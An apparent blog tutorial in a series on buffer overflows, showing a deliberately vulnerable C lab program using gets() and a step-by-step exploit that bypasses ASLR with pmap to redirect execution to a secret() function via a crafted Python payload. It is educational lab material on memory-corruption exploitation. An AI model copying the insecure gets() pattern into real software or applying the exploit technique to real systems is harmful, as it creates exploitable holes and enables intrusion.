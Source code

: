 ```yaml
---
title: Shattering the stack (1)
published: true
---
```


This is a follow-up to the [previous post](https://gemesa.dev/shattering-the-stack-0) where we began exploring the world of buffer overflows. Now, we will examine how to circumvent ASLR using [pmap](https://linux.die.net/man/1/pmap) (or any similar tool that can determine randomized addresses at runtime). The source code is available [here](https://github.com/gemesa/shadow-shell).

### vulnerable code

We are using the same C code to demonstrate a simple buffer overflow vulnerability (due to the use of the unsafe `gets()` function):

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// gets() was removed from the C11 standard
char* gets(char* str);

int authenticate(void)
{
    char buff[10];
    char cmd[10];
    int auth = 0;

    puts("enter the password:");
    gets(buff);
    
    if(strcmp(buff, "12345"))
    {
        puts("wrong password");
    }
    else
    {
        puts("correct password");
        auth = 1;

    }
    
    if(auth)
    {
        puts("authenticated");
        puts("your files:");
        strcpy(cmd, "ls");
        system(cmd);
    }

    return 0;
}

int main(void)
{
    authenticate();
    return 0;
}

void secret(void)
{
    puts("secret found!");
}
```

## exploit

Let’s compile and inspect the binary:

```
$ gcc lab/bof-server.c -g -o build/bof-server -fPIE -pie
...
$ objdump -f build/bof-server

build/bof-server:     file format elf64-x86-64
architecture: i386:x86-64, flags 0x00000150:
HAS_SYMS, DYNAMIC, D_PAGED
start address 0x0000000000001080
```

The [flags](https://sourceware.org/binutils/docs-2.23.1/bfd/BFD-front-end.html#BFD-front-end) include `DYNAMIC` which means the binary is meant to be used with dynamic linking. This flag is typically seen in shared libraries and PIE executables. We can also see a relatively low start address. For non-PIE executables the start address is usually a fixed higher address:

```
$ gcc lab/bof-server.c -g -o build/bof-server
...
$ objdump -f build/bof-server

build/bof-server:     file format elf64-x86-64
architecture: i386:x86-64, flags 0x00000112:
EXEC_P, HAS_SYMS, D_PAGED
start address 0x0000000000401070
```

Now we verified our binary is indeed a PIE executable meaning if ASLR is activated the addresses will be randomized when we run the executable:

```
$ ./build/bof-server
enter the password:

```
Open an other terminal:

```
$ ps a | grep bof-server                                                      
  45008 pts/0    S+     0:00 ./build/bof-server
...
$ pmap -x 45008
45008:   ./build/bof-server
Address           Kbytes     RSS   Dirty Mode  Mapping
0000561f40f3e000       4       4       0 r---- bof-server
0000561f40f3f000       4       4       0 r-x-- bof-server
0000561f40f40000       4       4       0 r---- bof-server
0000561f40f41000       4       4       4 r---- bof-server
0000561f40f42000       4       4       4 rw--- bof-server
0000561f42cf9000     132       4       4 rw---   [ anon ]
00007f20ed234000       8       4       4 rw---   [ anon ]
00007f20ed236000     152     148       0 r---- libc.so.6
00007f20ed25c000    1396     720       0 r-x-- libc.so.6
00007f20ed3b9000     308      64       0 r---- libc.so.6
00007f20ed406000      16      16      16 r---- libc.so.6
00007f20ed40a000       8       8       8 rw--- libc.so.6
00007f20ed40c000      40      28      28 rw---   [ anon ]
00007f20ed434000       4       4       0 r---- ld-linux-x86-64.so.2
00007f20ed435000     156     156       0 r-x-- ld-linux-x86-64.so.2
00007f20ed45c000      40      40       0 r---- ld-linux-x86-64.so.2
00007f20ed466000       8       8       8 r---- ld-linux-x86-64.so.2
00007f20ed468000       8       8       8 rw--- ld-linux-x86-64.so.2
00007ffcce354000     132      12      12 rw---   [ stack ]
00007ffcce37e000      16       0       0 r----   [ anon ]
00007ffcce382000       8       4       0 r-x--   [ anon ]
ffffffffff600000       4       0       0 --x--   [ anon ]
---------------- ------- ------- ------- 
total kB            2456    1244      96
```

Our goal is once again to jump to our `secret()` function:

```
$ objdump -d build/bof-server
...
0000000000001228 <secret>:
    1228:	55                   	push   %rbp
    1229:	48 89 e5             	mov    %rsp,%rbp
    122c:	48 8d 05 25 0e 00 00 	lea    0xe25(%rip),%rax        # 2058 <_IO_stdin_used+0x58>
    1233:	48 89 c7             	mov    %rax,%rdi
    1236:	e8 f5 fd ff ff       	call   1030 <puts@plt>
    123b:	90                   	nop
    123c:	5d                   	pop    %rbp
    123d:	c3                   	ret
...
```

The address `0x0000000000001228` is relative to the base address of our running process, so if it is `0x0000561f40f3e000` as we saw above then the address of `secret()` will be `0x0000561f40f3e000 + 0x0000000000001228`.

There are 2 problems:
- the base address will be only known after we run `bof-server`
- there is a high chance our address will contain non-printable characters like `\x10`, and passing these to a command-line executable can be tricky, especially if we are using a standard shell or command prompt, as these environments typically don't handle non-printable characters well in direct input

As a solution to these problems we will use the Python interpreter to run `bof-server` and pass our password (payload) to it:

```
$ python                
Python 3.11.6 (main, Oct  3 2023, 00:00:00) [GCC 13.2.1 20230728 (Red Hat 13.2.1-1)] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import subprocess
>>> cmd = ['stdbuf', '-o0', './build/bof-server']
>>> proc = subprocess.Popen(cmd, stdin=subprocess.PIPE, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
```

Note: `stdbuf -o0` sets the stdout stream buffering mode to unbuffered. This necessary because without this the stdout was lost (stdout was empty after calling `proc.communicate()`).

Now our process is waiting for our password input so we can check the base address:

```
$ ps a | grep bof-server
  46104 pts/0    S+     0:00 ./build/bof-server
...
$ pmap -x 46104
46104:   ./build/bof-server
Address           Kbytes     RSS   Dirty Mode  Mapping
00005651e7c8a000       4       4       0 r---- bof-server
...
```

Then calculate the address of `secret()` and pass our payload:

```
>>> hex(0x00005651e7c8a000+0x1228)
'0x5651e7c8b228'
>>> password = b'aaaaaaaaaabbbbcccccccc\x28\xb2\xc8\xe7\x51\x56'
>>> proc.stdin.write(password)
28
>>> proc.communicate()
(b'enter the password:\nwrong password\nauthenticated\nyour files:\narsenal\nbuild\nCargo.lock\nCargo.toml\nlab\nLICENSE\nMakefile\nREADME.md\ntarget\nsecret found!\n', b'')
>>> exit()
```

`proc.communicate()` returns the stdout and stderr logs. As we can see `secret()` was called because we see `secret found!` in the output.

References:
- https://reverseengineering.stackexchange.com/questions/19598/find-base-address-and-memory-size-of-program-debugged-in-gdb
